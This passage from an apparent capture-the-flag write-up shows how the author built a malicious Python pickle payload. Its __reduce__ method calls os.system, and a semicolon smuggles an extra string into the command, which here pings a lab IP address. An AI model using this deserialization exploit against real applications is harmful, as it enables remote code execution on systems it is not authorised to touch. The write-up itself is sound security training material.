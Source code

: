![Img](/assets/posts_details/Canape/images/exp2.0.png "Img")

That's when I realized that I wasn't actually unpacking the exploit code, but the ``Homerp1`` string + the exploit code! That's why it wasn't working and throwing an error. In fact, I tested it locally and that was the issue.

In order to keep the ``Homer`` string in the char variable I though about doing the following. First of all, I would add the string to the command run in the OS, but separated by a semicolon (as if they were two commands). That way, the first one would execute (the exploit), and the second result in an error. Besides, as the pickle exploit was several lines long, I could generate it, split it based on the newline characters (``\n``), then assign the first few lines (joined again with newlines) until the ``Homer`` string to the char variable and let the rest be the quote.

Translated in code...

```py
class EvilPickle(object):
    def __reduce__(self):
	       return (os.system, ('echo Powned;homerp1', ))
data = pickle.dumps(EvilPickle())
char = ("\n").join(data.split("\n")[:4])
pickle_data = ("\n").join(data.split("\n")[4:])
```

However, as I was still getting 500 errors, I thought about changing the exploit to somethin else, like a ``ping``. Finally I got the following (I added the char before 'cause it was always the same and the only thing that changed was my payload, so I could change it manually from the variable).

```py
char = """cposix
system
p0
(S'ping -c 5 10.10.14.143;homerp1'
"""

class EvilPickle(object):
    def __reduce__(self):
	       return (os.system, ('ping -c 4 10.10.14.143;homerp1', ))
data = pickle.dumps(EvilPickle())
pickle_data = ("\n").join(data.split("\n")[4:])
```
